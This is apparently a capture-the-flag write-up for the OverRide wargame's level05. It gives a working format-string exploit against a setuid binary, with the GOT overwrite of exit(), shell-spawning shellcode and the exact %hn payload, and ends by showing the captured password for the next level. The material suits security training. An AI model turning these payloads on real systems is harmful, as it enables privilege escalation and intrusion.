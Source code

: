 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution is to store a shellcode inside an environment variable. Then, we will overwrite `exit()` with the address of a NOP instruction that will lead to our shellcode. If we don't export our shellcode in an environment variable, any values corresponding to an uppercase letter in ASCII will be modified by the program. 
To rewrite the `exit()` call, we will use the `%n` specifier. We will send the address of the NOP instruction as a decimal number and store it inside the `exit()` call.

First, let's get the addres of `exit()`:
```Shell
level05@OverRide:~$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
[...]
080497e0 R_386_JUMP_SLOT   exit
[...]
```
Here it is: `\x08\x04\x97\xe0`.

Then, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Let's retrieve the address of our environment variable:
```Shell
(gdb) x/s *(char **)environ
0xffffd872:      "SHELLCODE=[...]
```

The address is 0xffffd872 but we will add 12 to be sure we get the address of a NOP instruction (we put 100 of them!): this gives us `0xffffd87e`.
But we are faced with a huge issue.
Writing the address in one go is impossible: in decimal, this is 4294957182 and it exceeds the capacity of a `printf()` call. 
We are forced to store the first two bytes and the last two bytes into two `short int`, aka `%h`.

Here is the address, divided into two, and converted to decimal:
ffff = 65535 / d87e = 55422.
Because of this, the address of `exit()` must also be in two parts:
`\x08\x04\x97\xe0` will store the first part and `\x08\x04\x97\xe2` (the start + 2 bytes) will store the second part.

Since we're in little endian, `d87e` will be the first part. We subtract 8 because of the 8 bytes of the address of `exit()` and we get `55414` as a final value.
`ffff` will be the second part. We subtract 8 because of `exit()`, but also `55414`, so we get `10113` as a final value.
We will place each value next to each other on the stack.
Let's find the index of our buffer on the stack:
```Shell
level05@OverRide:~$ ./level05
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd66f 0xffffd66e (nil) 0xffffffff 0xffffd6f4 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```
`0x61616161`(aaaa) is found at index 10, so they will be placed at index 10 and index 11, respectively.

So our final payload will consist of:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn:
```Shell
python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55414d" + "%10$hn" + "%10113d" + "%11$hn")' > /tmp/payload06
```

And the result is:
```Shell
level05@OverRide: cat /tmp/payload06 - | ./level05
[...]
        -134415680
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```